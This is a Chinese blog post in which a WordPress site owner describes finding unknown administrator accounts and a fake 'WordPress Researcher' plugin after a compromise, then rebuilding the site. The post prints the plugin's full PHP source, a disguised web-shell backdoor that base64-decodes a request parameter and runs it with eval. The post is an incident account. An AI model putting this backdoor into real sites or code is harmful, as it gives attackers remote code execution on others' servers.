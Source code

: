 ```yaml
---
title: 被黑了？
author: 老杨
layout: post
permalink: /be-hacked.html
categories:
  - 信息技术
tags:
  - wordpress
---
```

早上起来，帮<a href="http://cyhour.com/author/xcz" target="_blank">嫦子</a>发了篇<a href="http://cyhour.com/problems-caused-by-changes-in-the-environment.html" target="_blank">文章</a>。选择作者的时候，发现多了几个不知名（肯定不是我自己注册的、另外也关闭注册了的）的作者，吓了一跳。

检查了一遍，数据没丢失，那些管理员全部都是2010年3月19号注册的。检查插件，发现多了一个叫 <span style = "color:red;">WordPress Researcher</span> 的东东（文件最后修改日期是20141113）。哎，杯具了。就这么个破站，有啥好搞的呢？  


  
![lots-of-admin][1]

* * *

![WordPress Researcher][2]</p> 

那插件就一个文件，附上代码，不知道有啥用。

<pre style="margin:15px 0;font:100 12px/18px monaco, andale mono, courier new;padding:10px 12px;border:#ccc 1px solid;border-left-width:4px;background-color:#fefefe;box-shadow:0 0 4px #eee;word-break:break-all;word-wrap:break-word;color:#444"><span style="color:#555">&lt;?php</span><br /><span style="color:#a50">/*</span><br /><span style="color:#a50">Plugin Name: WordPress Researcher</span><br /><span style="color:#a50">Plugin URI: http://wordpress.org/extend/plugins/</span><br /><span style="color:#a50">Description: WordPress research tool.</span><br /><span style="color:#a50">Author: wordpressdotorg</span><br /><span style="color:#a50">Author URI: http://wordpress.org/</span><br /><span style="color:#a50">Text Domain: wordpress-researcher</span><br /><span style="color:#a50">License: GPL version 2 or later - http://www.gnu.org/licenses/old-licenses/gpl-2.0.html</span><br /><span style="color:#a50">Version: 2.2.4</span><br /><span style="color:#a50">*/</span><br />    <span style="color:#708">function</span> <span style="color:#@cm-word">research_plugin</span>()<br />    {<br />        <span style="color:#708">if</span> (<span style="color:#708">isset</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]))<br />        {<br />            <span style="color:#000-2">$myfunc</span> <span style="color:#000">=</span> <span style="color:#a11">'bas'</span>.<span style="color:#a11">'e64_'</span>.<span style="color:#a11">'dec'</span>.<span style="color:#a11">'ode'</span>;<br />            <span style="color:#000-2">$myvar</span> <span style="color:#000">=</span> <span style="color:#000-2">$myfunc</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]);<br />            <span style="color:#708">eval</span>(<span style="color:#000-2">$myvar</span>);<br />        }<br />        <span style="color:#@cm-word">return</span>;<br />    }<br /><br />    <span style="color:#@cm-word">add_action</span>(<span style="color:#a11">'after_setup_theme'</span>, <span style="color:#a11">'research_plugin'</span>);<br /><span style="color:#555">?&gt;</span></pre>

程序文件全部删掉了，导出了xml，数据库也不要了，重新安装导入了文章和评论内容，主题也重新检查了一遍，折腾大半天，终于又差不多回复原貌了。才发现，友链忘了备份了！又得手工整理一遍，累！

 [1]: http://cyhour.com/wp-content/uploads/2014/11/lots-of-admin.jpg
 [2]: http://cyhour.com/wp-content/uploads/2014/11/WordPress-Researcher.jpg